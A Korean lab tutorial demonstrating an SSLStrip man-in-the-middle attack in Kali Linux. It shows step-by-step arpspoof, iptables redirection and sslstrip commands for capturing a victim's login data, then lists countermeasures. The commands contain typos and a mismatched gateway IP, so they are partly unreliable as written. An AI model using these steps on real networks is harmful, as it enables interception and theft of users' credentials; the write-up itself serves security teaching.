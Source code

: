 # SSL Strip MITM Attack [Sniffing]



7 / 6 , 2018 Jinyan 김상민



SSL 통신을 MITM(Man in the middle)공격을 이용하여 Sniffing 하는 방식의 해킹기법을 이야기 하고자 합니다.

 

먼저 SSL 에 대한 설명을 하자면,  통신구간에서 중요정보가 노출되는 것을 막기 위한 '암호화'(SSL) 계층입니다. 예를들어 구글에서 로그인 할때 'http'에서 'https'로 바꿔주면서 개인정보가 암호화되어 전송하게 만듭니다.

  

SSL Sniffing 원리는 공격자가 사용자와 웹서버 중간에 개입하여 HTTPS URL을 HTTP로 변조하여 사용자는 HTTP를 사용하여 암호화 되지 않은 평문을 공격자에게 전송하게 되고 공격자는 평문을 암호화하여 웹서버에 전송하게 함으로써 공격자는 암호화되지 않은 정보를 얻을 수 있게 됩니다.



그럼 시나리오와 공격재현을 짜고 'KaliLiunx' 를 사용하여 실습을 보여주도록 하겠습니다.



#### 공격 시나리오

1. 같은 게이트워이 상태에서 사용자가 구글 홈페이지에 접근 시 HTTP로 유도하고, 사용자는 로그인을 시도합니다.
2. 로그인 시 SSL 통신을 위해 서버는 HTTPS로 유도합니다.
3. 공격자는 서버로 부터 받은 URL을 HTTP로 변조하여 사용자에게 전달합니다.
4. 사용자는 HTTP를 통해 로그인하게 되며, 공격자는 사용자 정보를 Sniffing 할 수 있게됩니다.

게이트워에 - 192.168.65.2

[공격자 - KaliLiunx / IP - eht0 192.168.65.134 ]

[사용자 - Windows7 / IP - 192.168.65.130 ]



#### KaliLiunx 2018.2 [공격자]

> - 게이트웨이 통신 MITM(중간자공격)을 위해 ARP Spoofing을 설정합니다.

```
~# aprspoof -i eht0 -t 192.168.65.130 192.168.62.2
```

arpspoof -i [interface] -t [공격대상 ip], [기본게이트웨이 ip]



> - 희생자 PC의 인터넷 연결을 위해 IP포워딩

```
~# fragrouter -B1
```

B1 : 일반 IP포워딩 [base-1]



> - 공격자는 80포트로 들어오는 패킷을 다른 포트로 대체합니다.

```
~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to ports 10000
```

주 목적지 포트 80번을 sslstrip가 리스닝하고 있는 10000번 포트로 Redirect

t : 테이블명 / A : 정책추가 / p : 프로토콜 / j : 타겟에 대한 규칙 지정



> - SSLStrip를 실행합니다. 

```
~# sslstrip -l 10000
```

sslstrip 실행하고 설정한 10000번 포트를 리스닝

l : port, 지정한포트 / a : 서버와 SSL/HTTP 트래픽을 주고 받음 / w : 저장할 파일명



> - 사용자가 로그인 하였을 때 로그를 열람합니다.

```
cat sslstrip.log
```



<img src="https://user-images.githubusercontent.com/37801676/42416971-c283dfc4-82b7-11e8-83e8-cf96eb973f20.PNG">

이런 식으로 쉽게 개인정보를 쉽게 얻을 수 있다. 



#### Windows 7.x [사용자]



> - 사용자는 구글 사이트에 접속합니다.

<img src="https://user-images.githubusercontent.com/37801676/42416967-b2a5bff0-82b7-11e8-9c44-9b90f2897538.PNG">

- 상단 바에 http로 접속된 것을 확인할 수 있습니다.



> - 사용자는 로그인 창으로 접속합니다.

<img src="https://user-images.githubusercontent.com/37801676/42416969-bea29db4-82b7-11e8-9705-1b46cc171976.PNG">

- 로그인 창에서도 역시 http프로토콜을 사용하는 것을 확인할 수 있습니다.



####  대응방안



> - 사용자
>
> 1. 중요정보를 전송하는 페이지 ex) login 페이지가 https:// 로 시작하는지 체크해야 합니다.
> 2. 신뢰할 수 없는 WI-FI 사용을 지양해야 합니다.
> 3. 신뢰할 수 없는 WI-FI를 사용중이라면 ARP Mac-address 를 스태틱 걸어 줍니다.



> - WI-FI 관리자
>
> 1. WPA2 이상의 쉽게 유추할 수 없는 패스워드를 사용해야합니다.
> 2. 공개 목적이 아니라면, IP/MAC  인증 등의 추가 인증을 넣어야합니다.



> - 웹 서비스 제공자
>
> 1. SSL을 통해 정보를 보호하는 구간에서 HTTP 사용을 방지하고 HTTPS를 강제 사용하도록 해야 합니다.
> 2. 서버 및 네트워크의 트래픽이 비교적 적은 서비스는 가능하다면 웹 사이트 전체에 SSL을 적용하여 HTTPS가 HTTP로 변경될 수 없도록 해야 합니다.

